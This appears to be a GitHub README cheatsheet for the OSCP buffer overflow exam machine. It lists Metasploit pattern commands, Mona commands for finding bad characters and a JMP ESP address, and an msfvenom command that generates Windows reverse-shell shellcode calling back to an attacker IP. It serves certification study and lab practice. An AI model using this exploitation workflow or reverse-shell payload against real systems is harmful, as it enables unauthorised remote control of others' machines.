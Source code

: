 
# OSCP-Buffer-Overflow-Cheatsheet
Everything you'll need for the OSCP Buffer Overflow machine
## Cheatsheet

**Pattern Create:** 
```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l length_of_pattern

Eg: /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 300
```

**Pattern Offset:** 
```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l length_of_pattern -q EIP_value_here

Eg: /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 300 -q 39654138
```

**Mona generate hex characters:** 
```
!mona bytearray
```

**Default location of bytearray.bin:** 
```
C:\Program Files (x86)\Immunity Inc\Immunity Debugger\bytearray.bin
```

**Mona compare:** 
```
!mona compare -f bytearray.bin -a esp
``` 
Make sure bytearray.bin has ben generated already.

**List modules with mona:** 
```
!mona modules
```

**Hex equivalent for JMP ESP:** 
```
\xff\xe4
```

**Find JMP ESP statement in identified module:** 
```
!mona find -s "\xff\xe4" -m module_name

Eg: !mona find -s "\xff\xe4" -m essfunc.dll!
```

**Generate shellcode:** 
```
msfvenom -p windows/shell_reverse_tcp LHOST=attacker_IP LPORt=listener_port EXITFUNC=thread -f c -a x86 -b "bad_characters"

Eg: msfvenom -p windows/shell_reverse_tcp LHOST=192.168.177.128 LPORt=443 EXITFUNC=thread -f c -a x86 -b "\x00\x0a\xb0"
```

**Convert address little endian in python:** 
```
struct.pack("<I", 0xaddress_here)

Eg: struct.pack("<I", 0x080414C3)!
```
Make sure the **struct** library is imported.

### Notes: 
* For python code, some programs may need a newline ("**\n**") character appended at the end in order to process input as intended.
* When identifying bad characters, consider not sending "**\x00**" as it could lead to false positives on other characters.

### Checklist:

1. Host address: 
2. Application port: 
3. Offset: 
4. Badchars: 
5. Vulnerable module:
6. JMP ESP address:
                                .



